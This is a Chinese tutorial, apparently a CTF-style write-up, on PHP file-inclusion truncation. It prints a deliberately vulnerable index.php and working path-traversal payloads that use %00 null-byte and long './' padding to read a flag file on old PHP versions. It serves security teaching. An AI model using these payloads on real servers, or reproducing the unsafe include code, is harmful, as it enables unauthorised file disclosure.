 这里限制了后缀名，我们需要通过截断才能访问到 flag 文件 利用代码：

index.php?file=../../flag.php%00

%00 会被解析为 0x00，所以导致截断的发生 我们通过截断成功的绕过了后缀限制



路径长度截断

我们现在已经知道使用 %00 截断有两个条件 php 版本小于 5.3.4 和 magic_quotes_gpc 为 off 状态。 如果这时我们将 magic_quotes_gpc 改为 on 那么就不能截断了，因为开启 magic_quotes_gpc 后 %00 会被加上一个反斜杠转义掉



那么我们这时候有没有办法绕过这个限制呢？有一个条件那就是 php 版本小于 5.3.10 我们的代码依旧不变 漏洞文件 index.php

 
<?php
if (empty($_GET["file"])){
    echo('../flag.php');
    return;
}
else{
    $filename='pages/'.(isset($_GET["file"])?$_GET["file"]:"welcome.txt").'.html';
    include $filename;
}
?>
flag 文件放在上层目录 这时我们可以使用字符 ./. 和 ./ 来进行绕过，因为文件路径有长度限制

windows 259 个 bytes

linux 4096 个 bytes

在 windows 下需要.字符最少的利用 POC1：

file=../../flag.php..............................................................................................................................................................................................................................................





在 windows 下需要.字符最少的利用 POC2：

file=../../flag.php./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././





将 flag.php 改为 flag1.php 在 windows 下需要.字符最少的利用 POC3：

file=../../flag1.php/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././



我们发现在使用 payload3 时将文件名改为了 flag1.php，而 payload2 和 payload3 则是一个.开始，一个 / 开始。 这和文件长度的奇偶性有关，当为偶数的时候我们选择 payload2，为奇数的时候我们选择 payload3



Refer：
柠檬师傅:

https://www.cnblogs.com/iamstudy/articles/include_file.html

腹黑师傅:

https://zhuanlan.zhihu.com/p/27739315